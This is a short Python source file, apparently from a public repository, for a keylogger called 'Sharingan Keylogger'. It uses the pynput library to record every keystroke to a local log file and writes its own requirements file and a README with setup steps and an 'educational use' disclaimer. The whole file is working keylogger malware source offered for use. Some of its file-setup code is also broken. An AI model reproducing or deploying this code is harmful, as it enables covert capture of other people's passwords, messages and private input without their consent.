# main.py
# Sharingan Keylogger - Tool That Monitors Keyboard Inputs
# Warning : This Tool is Only for THEkuroix!

from pynput.keyboard import Listener
import os

# Folder and file name for the log file
LOG_DIR = "logs"
LOG_FILE = "keylog.txt"

# Creating the log folder
if not os.path.exists(LOG_DIR):
    os.makedirs(LOG_DIR)

log_path = os.path.join(LOG_DIR, LOG_FILE)

# Writing function to log file
def write_to_file(key):
    with open(log_path, "a") as file:
        file.write(key + "\n")

# Callback function that runs when keys are pressed
def on_press(key):
    try:
        # regular characters
        write_to_file(str(key.char))
    except AttributeError:
        # Özel tuşlar (Shift, Enter, Backspace, vs.)
        write_to_file(str(key))

# Starting the listener
with Listener(on_press=on_press) as listener:
    listener.join()

# Creating additional files
# requirements.txt
txt_path = "requirements.txt"
requirements_content = "pynput\n"
with open(txt_path, "w") as req_file:
    req_file.write(requirements_content)

# README.md
readme_path = "README.md"
readme_content = """# Sharingan Keylogger

This project is a tool that monitors keyboard inputs. It must be used within ethical limits and for educational purposes.

## Setup
1. Install the required dependencies:
   ```
   pip install -r requirements.txt
   ```
2. `main.py` run the file:
   ```
   python main.py
   ```

## Warning
This tool is for educational and personal use only. Responsibility for any misuse rests with the user.

"""
with open(readme_path, "w") as readme_file:
    readme_file.write(readme_content)

# logs/keylog.txt
log_dir = "logs"
log_file_path = os.path.join(log_dir, "keylog.txt")
if not os.path.exists(log_file_path):
    os.makedirs(log_dir)
    with open(log_file_path, "w") as log_file:
        log_file.write("")
